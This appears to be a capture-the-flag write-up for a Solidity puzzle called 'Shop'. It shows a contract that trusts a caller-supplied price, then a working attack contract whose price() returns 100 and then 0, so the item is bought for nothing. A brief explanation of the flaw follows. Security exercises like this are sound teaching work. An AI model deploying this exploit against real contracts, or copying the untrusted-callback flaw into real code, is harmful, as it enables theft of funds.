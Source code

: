 <img src="shop.png" alt="shop" />


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

<hr />

# Hack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Shop {
  function buy() external;
  function isSold() external view returns(bool);
}

contract ShopBuy {
  Shop shop;

  constructor(address shopAddress) public {
      shop = Shop(shopAddress);
  }

  function buy() public {
    shop.buy();
  }

  function price() external view returns (uint) {
    return shop.isSold() ? 0: 100;
  }
}
```

Contracts can manipulate data seen by other contracts in any way they want. It's unsafe to change the state based on external and untrusted contracts logic. Shop should implement its own price function rather than calling the buyer price function as it can be malicious. So to pass this level a contract named ShopBuy with price function which returns >= 100 on first call and less than 100 on second call is required and we create price function similar to that. Price is view function so it cannot change state and it can be used for reading the state only.

Finally, we call buy function on Remix on ShopBuy to buy the item at 0 price.